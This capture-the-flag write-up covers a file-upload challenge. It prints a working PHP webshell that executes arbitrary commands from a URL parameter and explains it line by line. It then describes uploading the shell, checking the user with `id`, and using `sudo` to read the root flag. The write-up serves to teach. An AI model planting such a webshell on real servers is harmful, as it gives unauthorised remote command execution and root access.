

The challenge starts by giving us a simple page containing just a profile upload interface.



Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.

After uploading the file, the page refreshes and tells us that our file is located at `/uploads/photo.php`. Visiting that path, we see our shell is working as expected.


We use the command `id` to check which user is running our commands. As expected, the user is **www-data**.


One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**


As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 


If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.
